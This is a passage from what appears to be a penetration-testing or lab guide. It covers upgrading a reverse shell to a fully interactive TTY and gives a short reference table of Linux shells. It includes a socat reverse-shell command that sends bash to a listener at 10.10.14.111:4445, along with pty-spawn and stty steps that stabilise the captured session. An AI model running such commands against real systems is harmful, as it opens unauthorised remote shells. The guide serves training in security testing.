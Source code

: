 **Using Socat (if available):**
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.111:4445
```

#### Method 3: Full Interactive TTY

**Step 1: Initial PTY spawn**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Step 2: Background the session**
```bash
# Press Ctrl+Z to background
```

**Step 3: Configure local terminal**
```bash
stty raw -echo && fg
```

**Step 4: Reset terminal**
```bash
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <rows> columns <columns>
```

## Linux Shell Environments

### Common Linux Shells

| Shell | Binary | Description | Features |
|-------|--------|-------------|----------|
| **Bash** | `/bin/bash` | Bourne Again Shell | Command completion, history, scripting |
| **Sh** | `/bin/sh` | Bourne Shell | Basic POSIX compliance, minimal features |
| **Zsh** | `/bin/zsh` | Z Shell | Advanced features, customization |
| **Csh** | `/bin/csh` | C Shell | C-like syntax, job control |
| **Tcsh** | `/bin/tcsh` | TENEX C Shell | Enhanced C shell |
| **Fish** | `/bin/fish` | Friendly Interactive Shell | User-friendly, auto-suggestions |

### Shell Detection and Switching

**Current Shell Detection:**
```bash
echo $SHELL
echo $0
ps -p $$
```
